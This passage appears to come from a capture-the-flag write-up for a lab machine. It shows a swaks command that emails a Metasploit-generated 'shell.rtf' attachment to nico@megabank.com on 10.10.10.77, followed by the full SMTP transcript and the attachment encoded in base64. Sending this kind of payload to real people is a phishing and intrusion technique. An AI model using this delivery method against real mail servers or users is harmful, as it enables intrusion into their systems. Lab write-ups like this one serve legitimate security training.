 Swaks is a featureful, flexible, scriptable, transaction-oriented SMTP test tool written and maintained by John Jetmore.  
[Article Complete](http://www.jetmore.org/john/code/swaks/)  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Reel]─[root@Arthorias]─[0]─[2505]
╰─[:)] # swaks --to nico@megabank.com --server 10.10.10.77 --attach /root/.msf4/local/shell.rtf
=== Trying 10.10.10.77:25...
=== Connected to 10.10.10.77.
<-  220 Mail Service ready
 -> EHLO BinaryChaos
<-  250-REEL
<-  250-SIZE 20480000
<-  250-AUTH LOGIN PLAIN
<-  250 HELP
 -> MAIL FROM:<root@BinaryChaos>
<-  250 OK
 -> RCPT TO:<nico@megabank.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Sun, 23 Jun 2019 01:39:27 -0500
 -> To: nico@megabank.com
 -> From: root@BinaryChaos
 -> Subject: test Sun, 23 Jun 2019 01:39:27 -0500
 -> Message-Id: <20190623013927.006682@BinaryChaos>
 -> X-Mailer: swaks v20181104.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_6682"
 -> 
 -> ------=_MIME_BOUNDARY_000_6682
 -> Content-Type: text/plain
 -> 
 -> This is a test mailing
 -> ------=_MIME_BOUNDARY_000_6682
 -> Content-Type: application/octet-stream; name="shell.rtf"
 -> Content-Description: shell.rtf
 -> Content-Disposition: attachment; filename="shell.rtf"
 -> Content-Transfer-Encoding: BASE64
 -> 
 -> e1xydGYxXGFkZWZsYW5nMTAyNVxhbnNpXGFuc2ljcGcxMjUyXHVjMVxhZGVmZjMxNTA3XGRlZmYw
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
 -> MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAK
 -> MDEwNTAwMDAwMDAwMDAwMH0Ke1xyZXN1bHQge1xydGxjaFxmY3MxIFxhZjMxNTA3IFxsdHJjaFxm
 -> Y3MwIFxpbnNyc2lkMTk3OTMyNCB9fX19CntcKlxkYXRhc3RvcmUgfQp9Cg==
 -> 
 -> ------=_MIME_BOUNDARY_000_6682--
 -> .
<-  250 Queued (11.891 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
{% endhighlight %} 

